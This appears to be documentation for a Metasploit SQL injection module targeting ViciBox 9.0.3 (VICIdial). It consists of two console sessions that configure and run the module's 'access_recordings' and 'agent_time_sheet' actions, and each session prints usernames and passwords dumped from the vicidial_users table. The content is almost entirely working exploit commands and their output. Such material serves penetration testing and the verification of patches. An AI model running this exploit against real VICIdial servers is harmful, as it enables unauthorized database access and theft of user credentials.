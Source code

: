 ### ViciBox 9.0.3 - List Users - access_recordings method

```
msf use auxiliary/scanner/http/vicidial_multiple_sqli
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - access_recordings method
action => List Users - access_recordings method
msf auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### ViciBox 9.0.3 - List Users - agent_time_sheet method

```
msf use auxiliary/scanner/http/vicidial_multiple_sqli
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - agent_time_sheet method
action => List Users - agent_time_sheet method
msf auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
